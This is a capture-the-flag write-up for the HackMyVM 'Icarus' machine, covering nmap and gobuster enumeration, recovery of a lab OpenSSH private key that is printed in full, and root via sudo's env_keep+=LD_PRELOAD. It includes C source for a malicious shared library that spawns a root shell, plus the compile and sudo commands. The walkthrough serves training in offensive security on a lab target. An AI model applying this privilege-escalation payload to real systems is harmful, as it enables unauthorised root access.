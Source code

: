 ```yaml
---
layout: post
author: maxin
title:  "Icarus"
date:   2021-12-31 12:53:19 AM -03
category: HackMyVM
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Icarus)

# Enumeration

{% highlight bash %}
# Nmap 7.92 scan initiated Wed Dec 29 19:10:34 2021 as: nmap -sC -sV -v -oN nmap 192.168.0.23
Nmap scan report for 192.168.0.23
Host is up (0.020s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 b6:65:56:40:8d:a8:57:b9:15:1e:0e:1f:a5:d0:52:3a (RSA)
|   256 79:65:cb:2a:06:82:13:d3:76:6b:1c:55:cd:8f:07:b7 (ECDSA)
|_  256 b1:34:e5:21:a0:28:30:c0:6c:01:0e:b0:7b:8f:b8:c6 (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-title: LOGIN
|_http-server-header: nginx/1.14.2
| http-methods: 
|_  Supported Methods: GET HEAD POST
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec 29 19:10:41 2021 -- 1 IP address (1 host up) scanned in 7.62 seconds
{% endhighlight %}

# Port 80

We have a login page. Tried admin/admin and sqlmap, but found nothing 

## Fuzzing

{% highlight bash %}
gobuster dir -u $URL -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x php,html,txt
{% endhighlight %}

{% highlight bash %}
/login.php            (Status: 302) [Size: 0] [--> index.php]
/xml                  (Status: 200) [Size: 1]
/a                    (Status: 200) [Size: 9641]
/index.php            (Status: 200) [Size: 407]
/xxx                  (Status: 200) [Size: 1]
/check.php            (Status: 200) [Size: 21]
------ SNIP ------
/xch                  (Status: 200) [Size: 1]
/xfm                  (Status: 200) [Size: 1]
{% endhighlight %}

Use curl to make a request to `/a` returns a lot of letters. We can use this to fuzzing 

{% highlight bash %}
curl "http://%IP/a" > url
{% endhighlight %}

{% highlight bash %}
for i in $(cat url); do curl "http://%IP/$i" >> curl.output; done
{% endhighlight %}

This for will loop every word and make a request, sending the output to a file

{% highlight bash %}
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEA5xagxLiN5ObhPjNcs2I2ckcYrErKaunOwm40kTBnJ6vrbdRYHteS
afNWC6xFFzwO77+Kze229eK4ddZcwmU0IdN02Y8nYrxhl8lOc+e5T0Ajz+tRmLGoxJVPsS
TzKBERlWpKuJoGO/CEFLOv6PP6s79YYzZFpdUjaczY96jgICftzNZS+VkBXuLjKr79h4Tw
z7BK4V6FEQY0hwT8NFfNrF3x3VPe0UstdiUJFl4QV/qAPlHVhPd0YUEPr/95mryjuGi1xw
P7xVFrYyjLfPepqYHiS5LZxFewLWhhSjBOI0dzf/TwiNRnVGTZhB3GemgEIQRAam26jkZZ
3BxkrUVckQAAA8jfk7Jp35OyaQAAAAdzc2gtcnNhAAABAQDnFqDEuI3k5uE+M1yzYjZyRx
isSspq6c7CbjSRMGcnq+tt1Fge15Jp81YLrEUXPA7vv4rN7bb14rh11lzCZTQh03TZjydi
vGGXyU5z57lPQCPP61GYsajElU+xJPMoERGVakq4mgY78IQUs6/o8/qzv1hjNkWl1SNpzN
j3qOAgJ+3M1lL5WQFe4uMqvv2HhPDPsErhXoURBjSHBPw0V82sXfHdU97RSy12JQkWXhBX
+oA+UdWE93RhQQ+v/3mavKO4aLXHA/vFUWtjKMt896mpgeJLktnEV7AtaGFKME4jR3N/9P
CI1GdUZNmEHcZ6aAQhBEBqbbqORlncHGStRVyRAAAAAwEAAQAAAQEAvdjwMU1xfTlUmPY3
VUP9ePsBwSIck6ML8t35H8KFLKln3C4USxpNNe/so+BeTo1PtBVHYpDFu9IMOvrl7+qW3q
dLGyUpdUtQXhPK+RvJONt30GwB+BEUlpQYCW9SuHr1WCwfwPMA5iNdT2ijvx0ZvKwZYECJ
DYlB87yQDz7VCnRTiQGP2Mqiiwb7vPd/t386Y+cAz1cVl7BnHzWWJTUTkKCwijnvjYrD0o
tTQX4sGd6CrI44g+L8hnYuCZz+a0j6IyUfXJqj6l+/Z2Af7pJjbJD3P28xX7eY0h1Cec2l
/sb7qg2wy0qJNywJ35l8bZzZKjkXztPLOqMFQ6Fh0BqSdQAAAIEAlaH0ZEzJsZoR3QqcKl
xRKjVcuQCwcrKlNbJu2qRuUG812CLb9jJxJxacJPBV0NS832c+hZ3BiLtA5FwCiGlGq5m5
HS3odf3lLXDfIK+pur4OWKBNLDxKbqi4s4M05vR4gHkmotiH9eWlCNuqL46Ip5H1vFXeJM
pLRLN0gqOGuQQAAACBAPfffuhidAgUZH/yTvATKC5lcGrE7bkpOq+6XMMgxEQl0Hzry76i
rGXkhTY4QUtthYo4+g7jiDzKlbeaS7aN8RYq38GzQnZZQcSdvL1yB/N554gQvzJLvmKQbm
gLhMRcdDmifUelJYXib2Mjg/BLaRXaEzOomUKR2nyJH7VgU+xzAAAAgQDuqkBp44indqhx
wrzbfeLnzQqpZ/rMZXGcvJUttECRbLRfohUftFE5J0PKuT8w0dpacNCVgkT9A0Tc3xRfky
ECBQjeKLvdhcufJhQl0pdXDt1cpebE50LE4yHc8vR6FEjhR4P2AbGICJyRS7AX7UnrOWdU
IE3FeNP0r5UiSDq16wAAAA1pY2FydXNAaWNhcnVzAQIDBA==
-----END OPENSSH PRIVATE KEY-----
{% endhighlight %}

The output is a private key

# User

We can get the user of the private key using `ssh-keygen` 

{% highlight bash %}
ssh-keygen -y -f id_rsa

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnFqDEuI3k5uE+M1yzYjZyRxisSspq6c7CbjSRMGcnq+tt1Fge15Jp81YLrEUXPA7vv4rN7bb14rh11lzCZTQh03TZjydivGGXyU5z57lPQCPP61GYsajElU+xJPMoERGVakq4mgY78IQUs6/o8/qzv1hjNkWl1SNpzNj3qOAgJ+3M1lL5WQFe4uMqvv2HhPDPsErhXoURBjSHBPw0V82sXfHdU97RSy12JQkWXhBX+oA+UdWE93RhQQ+v/3mavKO4aLXHA/vFUWtjKMt896mpgeJLktnEV7AtaGFKME4jR3N/9PCI1GdUZNmEHcZ6aAQhBEBqbbqORlncHGStRVyR icarus@icarus
{% endhighlight %}

The user is icarus 

# Root

{% highlight bash %}
sudo -l

Matching Defaults entries for icarus on icarus:
    env_reset, mail_badpass, env_keep+=LD_PRELOAD, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User icarus may run the following commands on icarus:
    (ALL : ALL) NOPASSWD: /usr/bin/id
{% endhighlight %}

The real trick here it’s the `env_keep+=LD_PRELOAD`

[Linux Privilege Escalation using LD_Preload](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/)

Follow this guide we can create a C script and make this script a shared library

Change to /tmp directory and create a C script

{% highlight bash %}
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
{% endhighlight %}

And run the following commands

{% highlight bash %}
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/tmp/shell.so id
{% endhighlight %}